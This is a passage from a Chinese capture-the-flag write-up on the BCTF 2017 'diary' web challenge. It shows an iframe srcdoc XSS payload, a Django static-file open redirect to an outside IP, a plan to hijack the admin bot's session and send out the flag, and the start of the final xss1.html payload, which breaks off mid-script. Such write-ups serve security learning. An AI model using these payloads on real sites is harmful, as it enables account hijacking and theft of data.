 ![image_1bdtes5dj14jg1atr5tf1chg8hb3h.png-31.2kB][9]

细心一点儿可以发现，iframe标签其实没被过滤，而通过srcdoc属性，可以产生一个同源下的子窗口，子窗口下可以随便构造js

payload
```
<iframe srcdoc="<script>alert(1);</script>">

</iframe>
```
成功了，然后我们接着看站

## 目标 ##

survey是一个表单，我们随便提交点儿什么，会得到

```
Thank you. But the boss said only admin can get the flag after he finishes this survey, XD
```

看来这就是我们的目标了，这里需要注意了，survey这次提交是带有csrftoken的，也就是不存在csrf漏洞。

## 管理员审核 ##

然后是report bug功能，如果我们随便提交个url，会返回
```
We only care about the problem from this website (http://diary.bctf.xctf.org.cn)!
```

但是纵观整个站，我们不难发现，整站是由django写的，稍微测试下可以发现存在静态文件任意跳转漏洞

```
http://diary.bctf.xctf.org.cn/static/%5C%5C119.29.192.14/bctf2017/xss/xss.html

这样就会调到目标站了
```

## 整理攻击思路 ##

自己研究原文结合前面发现的一些漏洞，我们不难整理出整个攻击思路。

1、提交带有payload的外域链接，通过任意跳转绕过判断，让admin访问。
2、admin访问后退出diary域的登陆，但保留了auth域的session。
3、bot用我们事先准备好的token（这步可以动态）登陆，访问我们事先构造好的diary页面。
4、diary页面是事先用iframe插入的js，当bot访问的时候，先打开一个新的iframe子窗口退出当前账号，然后访问login登陆回bot账号。
5、等待上步完成后，新打开一个iframe子窗口，访问survey，向建议框内写入数据，点击submit。
6、等待上步完成后，获取子窗口内容，跳转至接受flag的地方

思路理明白了，就剩下写payload了。

## 最终payload ##

首先是xss1.html，也就是上面的前三步


```
<meta http-equiv="Content-Security-Policy" content="img-src http://diary.bctf.xctf.org.cn">

<img src="http://diary.bctf.xctf.org.cn/accounts/logout/" onerror="login();">


<script>

    var login = function() {
        var loginImg = document.createElement('img');
        loginImg.src = 'http://diary.bctf.xctf.org.cn/accounts/login/';
        loginImg.onerror = redir;
    }
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kkihjpctpr078cyrzrgip1ww/image_1bdt8qkc81s8ni7h17b7j21ck19.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k3o5raq7ozrnazfd5sfeojua/image_1bdt8uheq1gjhk37fht1nf81hd2m.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/f6023kwkx4nvjivhad1bso6b/image_1bdtb3dlk36js2i1605osn1hsq13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gfgzgx51t10slbclxuhzcr7f/image_1bdtbdbq012ntmdqss1ep03s21g.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jqq0ihh2mjb0phbd6auxw3hx/image_1bdtbp175hhc1nnjeg4lde1i8q1t.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/grrwwcnvdx6f6ue1v4ae5p1g/image_1bdtccqam15qf1hai1st21f661v2k2a.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9iw4qblc7cw108tuarkkgjuh/image_1bdte4eg9k9s13urld1g8t1jmt2n.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jz8831kzjijmhk4ewprxdtt6/image_1bdter1ojars1t0gfcf11ss1vl634.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sn7gt5nm8dwx4h18p9binz9b/image_1bdtes5dj14jg1atr5tf1chg8hb3h.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t0q0gcv10aov10jmy0s2f1xi/image_1bdtg2l1d198b1jph13fmffqg5g3u.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/monq5zoc8w02jgztjnndvgwt/image_1bdtg5fqebnmier3bkmcc1heb4b.png